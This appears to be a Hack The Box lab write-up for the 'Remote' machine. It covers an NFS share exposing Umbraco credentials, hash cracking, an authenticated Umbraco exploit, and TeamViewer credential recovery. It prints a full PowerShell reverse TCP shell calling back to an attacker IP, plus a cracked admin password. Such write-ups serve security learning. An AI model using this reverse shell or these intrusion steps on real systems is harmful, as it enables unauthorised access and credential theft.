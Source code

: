 ```yaml
---
title: Remote - Hack The Box
excerpt: "Remote is a beginner's box running a vulnerable version of the Umbraco CMS which can be exploited after we find the credentials from an exposed share. After landing a reverse shell, we find that the machine has TeamViewer installed and we can recover the password with Metasploit then log in as Administrator."
date: 2020-09-05
image: /assets/images/htb-writeup-remote/remote_logo.png
categories:
  - hackthebox
  - infosec
tags:
  - nfs
  - umbraco
  - teamviewer
  - metasploit
---
```



Remote is a beginner's box running a vulnerable version of the Umbraco CMS which can be exploited after we find the credentials from an exposed share. After landing a reverse shell, we find that the machine has TeamViewer installed and we can recover the password with Metasploit then log in as Administrator.

## Summary

- Find open NFS share and locate Umbraco credentials inside the SDF file
- Use Umbraco exploit with the admin credentials to get a shell
- Find TeamViewer's credentials using Metasploit
- Log in as administrator with the password from TeamViewer

## Portscan

```
root@kali:~/htb/remote# nmap -sC -sV -p- 10.10.10.180
Starting Nmap 7.80 ( https://nmap.org ) at 2020-03-21 19:41 EDT
Nmap scan report for remote.htb (10.10.10.180)
Host is up (0.063s latency).
Not shown: 65518 closed ports
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp    open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Home - Acme Widgets
111/tcp   open  rpcbind       2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
[...]
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds?
2049/tcp  open  mountd        1-3 (RPC #100005)
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
[...]
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Using crackmapexec, we can identity the OS and the domain name.

```
root@kali:~/htb/remote# cme smb 10.10.10.180
SMB         10.10.10.180    445    REMOTE           [*] Windows 10.0 Build 17763 x64 (name:REMOTE) (domain:REMOTE) (signing:False) (SMBv1:False)
```

## Unsuccessful recon

- FTP site allows anonymous connections but doesn't contain anything
- Null sessions are not allowed on the box (can't enumerate users or shares)

## Website

The site is just some company's website and doesn't have anything interesting.

![](/assets/images/htb-writeup-remote/webpage.png)

We can see from the various left around the page and html source code that it's running the Umbraco CMS.

![](/assets/images/htb-writeup-remote/umbraco.png)

We can access the login page at `http://remote.htb/umbraco/` but we don't have any credentials yet.

![](/assets/images/htb-writeup-remote/adminpage.png)

## NFS mount

Using `showmount` we can check which NFS shares are accessible. Here we can see that `site_backups` is accessible by anyone.

```
root@kali:~# showmount -e 10.10.10.180
Export list for 10.10.10.180:
/site_backups (everyone)
```

We can mount the NFS share to our `/mnt` directory and examine the files contained within.

```
root@kali:~# mount -t nfs 10.10.10.180:site_backups /mnt
root@kali:~# ls -l /mnt
total 115
drwx------ 2 nobody 4294967294    64 Feb 20 12:16 App_Browsers
drwx------ 2 nobody 4294967294  4096 Feb 20 12:17 App_Data
drwx------ 2 nobody 4294967294  4096 Feb 20 12:16 App_Plugins
drwx------ 2 nobody 4294967294    64 Feb 20 12:16 aspnet_client
drwx------ 2 nobody 4294967294 49152 Feb 20 12:16 bin
drwx------ 2 nobody 4294967294  8192 Feb 20 12:16 Config
drwx------ 2 nobody 4294967294    64 Feb 20 12:16 css
-rwx------ 1 nobody 4294967294   152 Nov  1  2018 default.aspx
-rwx------ 1 nobody 4294967294    89 Nov  1  2018 Global.asax
drwx------ 2 nobody 4294967294  4096 Feb 20 12:16 Media
drwx------ 2 nobody 4294967294    64 Feb 20 12:16 scripts
drwx------ 2 nobody 4294967294  8192 Feb 20 12:16 Umbraco
drwx------ 2 nobody 4294967294  4096 Feb 20 12:16 Umbraco_Client
drwx------ 2 nobody 4294967294  4096 Feb 20 12:16 Views
-rwx------ 1 nobody 4294967294 28539 Feb 20 00:57 Web.config
```

## Locating the umbraco admin password

I expected the password to be inside `Web.config` or some other plaintext configuration file but I did not find any credentials there. However when I looked at the `Umbraco.sdf` file in the `/mnt/App_Data` folder I saw that it contains some hashed passwords.

![](/assets/images/htb-writeup-remote/sdf.png)

The administrator's SHA-1 hash looks interesting: `b8be16afba8c314ad33d812f22a04991b90e2aaa`

It's easily cracked with john: `baconandcheese`

![](/assets/images/htb-writeup-remote/bacon.png)

Now we can log in to the Umbraco page:

![](/assets/images/htb-writeup-remote/umbracoadmin.png)

## Getting a shell with umbraco exploit

A quick search on Exploit-DB shows there's an authenticated exploit for Umbraco version 7.12.4, which is the exact version running on the box.

![](/assets/images/htb-writeup-remote/searchsploit.png)

![](/assets/images/htb-writeup-remote/version.png)

Here's the modified exploit with the proper credentials and the payload using powershell.exe to reach out to our python webserver and download a powershell payload.

![](/assets/images/htb-writeup-remote/payload1.png)

The payload is a standard Nishang reverse TCP shell:

```powershell
$client = New-Object System.Net.Sockets.TCPClient('10.10.14.13',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

After using the expoit, we can get a shell.

![](/assets/images/htb-writeup-remote/user.png)

## Privesc

I noticed that the TeamViewer service is running on the server.

![](/assets/images/htb-writeup-remote/teamviewer_directory.png)

![](/assets/images/htb-writeup-remote/teamviewer_service.png)

We can find the TeamViewer credentials by using the Metasploit module.

![](/assets/images/htb-writeup-remote/teamviewer.png)

Then we can log in to the box as administrator using WinRM.

![](/assets/images/htb-writeup-remote/root.png)